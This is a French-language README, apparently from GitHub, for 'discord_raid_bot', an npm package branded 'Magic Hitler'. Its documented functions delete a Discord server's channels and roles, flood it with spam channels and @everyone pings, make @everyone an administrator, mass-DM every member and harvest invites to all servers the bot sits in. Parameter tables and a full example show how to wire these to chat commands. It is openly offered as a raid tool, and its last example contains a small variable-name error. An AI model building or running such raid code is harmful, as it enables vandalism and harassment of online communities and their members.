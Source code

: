 # Magic Hitler
# Discord Raid Bot
## Sommaire
    1 - Installation
    2 - Utilisation
## 1 - Installation
Pour installer Discord Raid Bot, éxecutez simplement la commande 
```bash
npm install discord_raid_bot
```
dans le dossier de votre application Node.Js.
## 2 - Utilisation
Pour utiliser Discord Raid Bot, intégrez la ligne suivante à votre code :
```javascript
const raid = require('discord_raid_bot');
```





***
### raid.deleteAllChannels(client, trigger, createChannel)
Supprime tous les salons du serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| createChannel | boolean   | Crée un salon quand tous les autres sont supprimés si activé |
ex : 
```js
raid.deleteAllChannels(bot, "supprimer les salons", true);
```





***
### raid.createChannels(client, trigger, numberOfChannelsToCreate, nameOfChannelsToCreate, MessageToSpamInNewChannels, numberOfNotificationsPerChannel)
Supprime tous les salons du serveur puis en crée d'autres en spammant dedans.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| numberOfChannelsToCreate | int | Le nombre multiplié par 2 de salons qui seront créés dans le serveur |
| nameOfChannelsToCreate | string | Le nom des salons qui seront créés dans le serveur |
| MessageToSpamInNewChannels | string | Les messages qui seront envoyés dans chaque salon créé dans le serveur |
| numberOfNotificationsPerChannel | int | Nombre de messages envoyés dans chaque salon |
ex :
```js
raid.createChannels(bot, "créer des salons", 444, "salon-créé", "@everyone message envoyé", 3);
```





***
### raid.deleteRoles(client, trigger)
Supprime tous les rôles supprimables dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.deleteRoles(bot, "supprimer les rôles")
```





***
### raid.createRoles(client, trigger, nameOfRolesToCreate, NumberOfRolesToCreate)
Créer des rôles dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| nameOfRolesToCreate | string | Nom des rôles à créer |
| NumberOfRolesToCreate | int | Nombre de rôles à créér |
ex :
```js
raid.createRoles(bot, "créer des rôles", "nom des rôles", 42)
```





***
### raid.everyoneAdmin(client, trigger)
Rend le rôle @everyone administrateur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.everyoneAdmin(bot, "@everyone admin")
```





***
### raid.dmAllMembers(client, trigger, msg, numberOfMessages)
Contacte chaque membre du serveur par message privé.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| msg   | string    | Le message qui sera envoyé à chaque membre |
| numberOfMessages |    number |    Nombre de messages envoyés |
ex :
```js
raid.dmAllMembers(bot, "messages privés", "message envoyé", 15)
```




***
### raid.completeRaid(client, trigger, everyoneAdmin, deleteRoles, deleteChannels, createChannels, channelsName, channelsNumber, spamMessage, messagesNumber, createRoles, rolesName, rolesNumber)
Combine plusieurs attaques en une seule.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| everyoneAdmin  | boolean | Rend le rôle @everyone administrateur |
| deleteRoles | boolean | Supprime les rôles supprimables |
| deleteChannels | boolean | Supprime tous les salons |
| createChannels | boolean | Crée des salons pour y spammer |
| channelsName | string | Nom des salons créés |
| channelsNumber | number | Nombre de salons créés (max = 500) |
| spamMessage | string | Message spammé dans les nouveaux salons |
| messagesNumber | number | Nombre de messsages à envoyer |
| createRoles | boolean | Crée des rôles |
| rolesName | string | Nom des rôles à créer |
| RolesNumber | number | Nombre de rôles à créer (max = 250) |
ex :
```js
raid.completeRaid(bot, 'raid', true, true, true, true, 'nom-des-salons', 222, 'message spammé', 3000, true, 'nom des rôles', 30)
```




***
### raid.createInvite(client, trigger, allGuilds)
Crée une invitation pour un ou chacun des serveurs où le bot se trouve, puis vous l'envoie.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| allGuilds     | boolean   | Crée une invitation pour tous les serveurs |
ex :
```js
raid.createInvite(bot, "créer une invitation", true);
```





***
### raid.ready(client)
Affiche des informations sur le bot dè qu'il est prêt.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
ex :
```js
raid.ready(bot);
```





***
## Exemple complet

```js
const raid = require('discord_raid_bot');
const Discord = require('discord.js');
const bot = new Discord.Client();
const config = require('./config.json');

raid.ready(bot);
raid.deleteAllChannels(bot, "!suppr_chnls", true);
raid.createChannels(bot, "!spam_chnls", 222, "raid", "@everyone", 6);
raid.deleteRoles(bot, "!kill_rls");
raid.createRoles(bot, "!create_rls", 'raid', 25);
raid.completeRaid(bot, '!raid', true, true, true, true, 'raid', 222, '@everyone', 3000, true, 'raid', 30);
raid.dmAllMembers(bot, "!dm", "https://discord.gg/xxxxxx", 15);
raid.everyoneAdmin(bot, "!admin");
raid.createInvite(bot, "!inv", false);
raid.createInvite(bot, "!all-servs-inv", true); // On peut déclarer plusieurs configurations différentes

client.login(config.token);
```
Plus de 300 lignes de codes résumées en 10.
